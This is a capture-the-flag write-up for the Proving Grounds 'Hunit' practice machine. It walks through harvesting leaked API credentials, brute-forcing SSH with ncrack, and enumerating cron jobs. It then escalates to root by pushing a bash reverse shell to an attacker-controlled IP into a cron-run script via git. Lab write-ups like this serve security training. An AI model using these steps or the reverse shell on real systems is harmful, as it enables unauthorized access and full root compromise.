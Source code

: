 ```yaml
---
title: "Proving grounds Practice: Hunit"
layout: post
categories: writeup
---
```


Proving grounds Practice - Hunit CTF writeup.

# NMAP

```text
PORT      STATE SERVICE     VERSION
8080/tcp  open  http-proxy
12445/tcp open  netbios-ssn Samba smbd 4.6.2
18030/tcp open  http        Apache httpd 2.4.46 ((Unix))
43022/tcp open  ssh         OpenSSH 8.4 (protocol 2.0)
```

## 8080/tcp  open  http-proxy

File Discovery
None

## Directory Discovery
- http://192.168.213.125:8080/api/
- http://192.168.213.125:8080/api/user/

**User directory discloses some credentials.**

```json
[
  {
    "login": "rjackson",
    "password": "yYJcgYqszv4aGQ",
    "firstname": "Richard",
    "lastname": "Jackson",
    "description": "Editor",
    "id": 1
  },
  {
    "login": "jsanchez",
    "password": "d52cQ1BzyNQycg",
    "firstname": "Jennifer",
    "lastname": "Sanchez",
    "description": "Editor",
    "id": 3
  },
  {
    "login": "dademola",
    "password": "ExplainSlowQuest110",
    "firstname": "Derik",
    "lastname": "Ademola",
    "description": "Admin",
    "id": 6
  },
  {
    "login": "jwinters",
    "password": "KTuGcSW6Zxwd0Q",
    "firstname": "Julie",
    "lastname": "Winters",
    "description": "Editor",
    "id": 7
  },
  {
    "login": "jvargas",
    "password": "OuQ96hcgiM5o9w",
    "firstname": "James",
    "lastname": "Vargas",
    "description": "Editor",
    "id": 10
  }
]
```

### Users
- rjackson
- jsanchez
- dademola
- jwinters
- jvargas

### Passwords
```text
yYJcgYqszv4aGQ
d52cQ1BzyNQycg
ExplainSlowQuest110
KTuGcSW6Zxwd0Q
OuQ96hcgiM5o9w
```

## Brute force credentials for SSH

```sh
naveenj@hackerspace:|22:22|~/proving_grounds/Hunit/files$ ncrack -vvv ssh://192.168.213.125:43022 -U users -P passwords 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2023-10-23 22:22 EDT

Discovered credentials on ssh://192.168.213.125:43022 'dademola' 'ExplainSlowQuest110'
ssh://192.168.213.125:43022 finished.

Discovered credentials for ssh on 192.168.213.125 43022/tcp:
192.168.213.125 43022/tcp ssh: 'dademola' 'ExplainSlowQuest110'
```

## 12445/tcp open  netbios-ssn Samba smbd 4.6.2

```sh
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	Commander       Disk      Dademola Files
	IPC$            IPC       IPC Service (Samba 4.13.2)
Reconnecting with SMB1 for workgroup listing.
```

## 43022/tcp open  ssh   OpenSSH 8.4 (protocol 2.0)

SSH to user using dademola:ExplainSlowQuest110

```sh
naveenj@hackerspace:|22:25|~/proving_grounds/Hunit$ ssh -p 43022 dademola@192.168.213.125
dademola@192.168.213.125's password:ExplainSlowQuest110
Last login: Tue Oct 24 02:22:47 2023 from 192.168.45.196
[dademola@hunit ~]$ 
```

## Privilege Escalation

Download linpeas using port 8080 and note that a cron job is running.

`root         300  0.0  0.0   3644  2220 ?        Ss   02:19   0:00 /usr/bin/crond -n`

```sh
/var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Nov  6  2020 .
drwxr-xr-x 6 root root 4096 Nov  6  2020 ..
-rw------- 1 root root    9 Feb 16  2023 cron.daily
-rw------- 1 root root    9 Feb 16  2023 cron.monthly
-rw------- 1 root root    9 Feb 16  2023 cron.weekly
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

## Cron job

- Found id_rsa and id_rsa.pub keys for root.

## Extended capabilities

```sh
[dademola@hunit ~]$ getcap -r / 2> /dev/null
/usr/bin/newgidmap cap_setgid=ep
/usr/bin/newuidmap cap_setuid=ep
```

## Exploring cron

```sh
[dademola@hunit etc]$ cat crontab.bak 
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

- Cron running these 2 scripts every 3 and 2 minutes.
- Clone the /git-server folder to the /tmp folder for inspection
- git clone file:///git-server

```sh
[dademola@hunit git-server]$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
[dademola@hunit git-server]$ ls -al
total 8
drwxr-xr-x 3 dademola dademola 120 Oct 24 03:04 .
drwxrwxrwt 5 root     root     120 Oct 24 03:04 ..
drwxr-xr-x 8 dademola dademola 260 Oct 24 03:04 .git
-rw-r--r-- 1 dademola dademola   0 Oct 24 03:04 NEW_CHANGE
-rw-r--r-- 1 dademola dademola  63 Oct 24 03:04 README
-rw-r--r-- 1 dademola dademola  34 Oct 24 03:04 backups.sh
```

The backups.sh file is a placeholder file.

To gain control over the script, we need to set up our git identity by configuring the user.name and user.email using the commands git config — global user.name “dademola” and git config — global user.email “dademola@hunit.(none)”, respectively.

```sh
[dademola@hunit git-server]$ git config --global user.name "dademola"
[dademola@hunit git-server]$ git config --global user.email "dademola@hunit.(none)"
```

Clone remote git server using git SSH key

```sh
naveenj@hackerspace:|23:18|~/proving_grounds/Hunit$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.213.125:/git-server
```

Add reverse shell connection code to the backups.sh file. Configure git in local machine to push the updated code.

```sh
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.name "naveenj"
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.email "naveenj@kali.(none)"
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git add -A
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git commit -m "exp"
#git push
naveenj@hackerspace:|23:25|~/proving_grounds/Hunit/git-server$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 326 bytes | 326.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
To 192.168.213.125:/git-server
   b50f4e5..eee611b  master -> master
```

Ensure the shell is in the /git-server folder.

Reverse shell
```sh
sh -i >& /dev/tcp/192.168.45.196/8080 0>&1
```

Once the cron job running the reverse shell with root privilege will be obtained.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
